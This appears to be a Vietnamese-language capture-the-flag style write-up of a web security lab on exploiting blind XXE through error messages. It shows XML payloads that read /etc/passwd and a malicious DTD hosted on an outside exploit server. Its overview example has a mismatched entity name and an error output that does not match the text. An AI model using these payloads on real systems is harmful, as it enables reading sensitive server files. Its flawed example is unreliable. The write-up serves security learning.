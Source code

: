 # Lab: Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

# Overview:

Khai thác blind XXE để lấy dữ liệu thông qua các thông báo lỗi, trong đó kẻ tấn công có thể kích hoạt một thông báo lỗi phân tích chứa dữ liệu nhạy cảm.

Khai thác blind XXE để lấy dữ liệu là khi kẻ tấn công tạo ra một lỗi phân tích XML, và thông báo lỗi này chứa dữ liệu nhạy cảm mà kẻ tấn công muốn lấy. Thông báo lỗi này được trả về từ ứng dụng và chứa dữ liệu mục tiêu.

Ví dụ:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % error ENTITY "%x;">
  %error;
]>
```

Trong trường hợp này, yêu cầu XML chứa một thực thể %xxe với giá trị là nội dung của tệp /etc/passwd. Sau đó, nó tạo ra một thực thể %error tham chiếu đến %xxe và chèn %error vào tài liệu XML.

Nếu ứng dụng web bị lỗ hổng blind XXE và xử lý yêu cầu XML này, nó sẽ phản hồi với một thông báo lỗi. Ví dụ, nếu tệp /etc/passwd được đọc thành công, ứng dụng có thể trả về một thông báo lỗi như sau:

```xml
Internal Server Error: Failed to process XML. Entity reference "&#x25;xxe;" not found.
```

Trong thông báo lỗi này, bạn có thể thấy rằng thông báo chứa một phần của nội dung tệp /etc/passwd, do đó, cho phép bạn thu thập thông tin nhạy cảm như tài khoản người dùng trên hệ thống.

Form của challenge khá tương tự như lab lần trước.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/b657d57e-74c5-45ca-a0a9-75fecf95d9c4)

Cách làm thì khá tương tự lab DTD nhưng thay vì là `file:///etc/hostname` thì ta sẽ thay đổi `/etc/passwd`. Ta sẽ tham chiếu multi-line file password và khi ta trích xuất dữ liệu bằng cách cũ.

# Solution:

Vậy thì cách chính làm bài này là sử dụng error messages, khi ứng dụng trả lại lỗi messages có liên quan tới xml parsing ta có thể dùng nó để trigger error messages cũng như là dữ liệu mà ta muốn trích xuất.

Đầu tiên thì ta check stock rồi chèn payload cũ vào thôi

```xml
<!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0a3f0047049470af847ae19e01ce0034.exploit-server.net/exploit">
%loadDtd;
%stack;
%error;]>
```

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/c778044a-2a7a-4855-bc3b-6c896a3a5e07)

```xml
<!ENTITY % file  SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM  'file:///idonotexist/%file;'>">
```
Thay vì ta gửi content của cái `file` entity này cho exploit server, ta sẽ trigger lỗi. Ta có `error entity` tham chiếu cho một cái nguồn không tồn tại, mình đặt tên là `idonotexist` sau đó là `/%file` cho file ta muốn trích xuất.

Mình đặt random cái file là `idonotexist` là bởi vì khi xml parser sẽ xem xét `error entity` và sẽ lấy resources không tồn tại ở dây là `idonotexist` và nó sẽ trả về lỗi bới vì nó ko tìm được cái file nào tên như vậy.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/e01548a5-a379-4758-924d-2f369624f1ca)

Sau đó lưu và send request 

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/3f402ced-153b-471d-bf58-a5d72725c8b4)

Ta đã solve được lab.
